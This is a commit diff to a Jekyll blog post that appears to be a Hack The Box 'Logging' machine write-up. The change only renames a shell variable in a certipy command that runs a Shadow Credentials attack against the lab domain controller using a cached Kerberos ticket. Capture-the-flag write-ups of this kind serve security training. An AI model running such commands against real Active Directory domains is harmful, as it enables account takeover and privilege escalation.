

Before and after one commit to thesecretmyth/thesecretmyth.github.io, a Jekyll site: the page built from _posts/2026-07-19-htb-logging.md, in a window 1280 px wide and 1400 px high, scrolled down 9553 px. Shown: the part 137-598 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
HTB: Machine: Logging

````diff
--- a/_posts/2026-07-19-htb-logging.md
+++ b/_posts/2026-07-19-htb-logging.md
@@ -350,7 +350,7 @@
 
 With a valid TGT cached, we utilize `Certipy` to orchestrate the Shadow Credentials attack.
 
-We use the `env KRB5CCNAME=svc_recovery.ccache` inline variable to force `Certipy` to authenticate via our cached Kerberos ticket (`-k -no-pass`). Critically, we explicitly specify both `-dc-host dc01.logging.htb` and `-dc-ip $targetIp` to ensure proper hostname validation during the PKINIT handshake.
+We use the `env KRB5CCNAME=svc_recovery.ccache` inline variable to force `Certipy` to authenticate via our cached Kerberos ticket (`-k -no-pass`). Critically, we explicitly specify both `-dc-host dc01.logging.htb` and `-dc-ip $target_ip` to ensure proper hostname validation during the PKINIT handshake.
 
 ```Bash
 # Execute Shadow Credentials attack with proper DNS validation
@@ -359,7 +359,7 @@
 certipy shadow auto \
     -u svc_recovery -k -no-pass \
     -account 'msa_health$' \
-    -target dc01.logging.htb -dc-host dc01.logging.htb -dc-ip $targetIp
+    -target dc01.logging.htb -dc-host dc01.logging.htb -dc-ip $target_ip
 
 Certipy v5.1.0 - by Oliver Lyak (ly4k)
 
````
